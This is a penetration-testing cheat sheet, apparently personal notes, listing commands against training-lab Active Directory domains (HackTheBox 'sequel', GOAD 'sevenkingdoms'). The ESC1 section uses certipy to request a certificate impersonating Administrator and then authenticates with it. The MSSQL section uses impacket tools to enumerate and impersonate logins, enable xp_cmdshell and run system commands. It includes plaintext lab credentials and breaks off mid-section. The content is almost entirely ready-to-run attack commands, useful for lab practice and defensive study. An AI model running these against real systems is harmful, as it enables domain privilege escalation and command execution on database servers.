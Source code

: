 ```
pip3 install .
```

## Enumeration 
```
certipy-ad find -u Ryan.Cooper@sequel.htb -p 'NuclearMosquito3' -dc-ip 10.10.11.202 -vulnerable -stdout
certipy-ad find -u Ryan.Cooper@sequel.htb -p 'NuclearMosquito3' -dc-ip 10.10.11.202 -vulnerable -enabled -stdout

getTGT.py sequel.htb/Ryan.Cooper:horse
export KRB5CCNAME=khal.drogo.ccache 
certipy-ad find -u Ryan.Cooper@sequel.htb  -k -no-pass  -vulnerable -stdout -ns 10.127.14.70 -target COB3DC.sequel.htb  -debug
```

## Exploitation 
### ESC1
```
certipy-ad req -u Ryan.Cooper@sequel.htb -p 'NuclearMosquito3' -target dc.sequel.htb -template UserAuthentication -ca sequel-DC-CA -upn Administrator@sequel.htb 
sudo ntpdate 10.10.11.202
certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.11.202
```

# MSSQL
## Enumeration
```
GetUserSPNs.py -target-domain essos.local north.sevenkingdoms.local/brandon.stark:iseedeadpeople
nmap -p 1433 -sV -sC 192.168.56.10-23
crackmapexec mssql 192.168.56.22-23

crackmapexec mssql 192.168.56.22 -u samwell.tarly -p Heartsbane -d north.sevenkingdoms.local
```

## Connect to mssql
```
python3 mssqlclient.py -windows-auth north.sevenkingdoms.local/samwell.tarly:Heartsbane@castelblack.north.sevenkingdoms.local

# Enumerate user of server 
enum_logins

# Enumerate user of database
enum_users

## Enumerate login with impersonation permission
enum_impersonate

## Impersonation
exec_as_login sa
enable_xp_cmdshell
xp_cmdshell whoami

## Enumerate as login sa
enum_logins
enum_impersonate

## Impersonate - execute as user
```